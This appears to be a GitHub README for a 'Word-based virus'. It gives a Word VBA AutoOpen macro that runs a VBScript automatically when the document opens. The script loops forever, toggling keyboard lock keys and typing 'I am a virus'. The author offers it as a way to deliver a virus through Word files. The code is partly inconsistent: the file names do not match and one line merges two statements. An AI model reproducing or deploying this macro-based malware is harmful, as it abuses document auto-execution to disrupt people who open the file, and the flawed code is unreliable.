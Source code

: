 # Word-based-virus

Sending executables usually isn't the best option. 
But we can use VBA script Macro in a Word document in order to send a virus. 
You use these files at your own risk.

Detailed steps of how I made it and explanation of codes can be seen at:
https://www.youtube.com/watch?v=UCyQlx5fzGI

In word macro:
-------------------------------

Sub AutoOpen()

Dim wb As String
Dim myPath As String
Dim myWb As String

wb = "number.vbs"
myPath = ActiveDocument.path
myWb = """" & myPath & "\" & wb & """"

' MsgBox myWb, 48

CreateObject("Wscript.Shell").Run myWb, 1, True


End Sub

-------------------------------

In EnableContent.vbs:
-------------------------------

set x=wscript.createobject ("wscript.shell") 
do 
wscript.sleep 100 x.sendkeys "{CAPSLOCK}" 
x.sendkeys "{NUMLOCK}" 
x.sendkeys "I am a virus " 
x.sendkeys "{SCROLLLOCK}" 
loop

-------------------------------
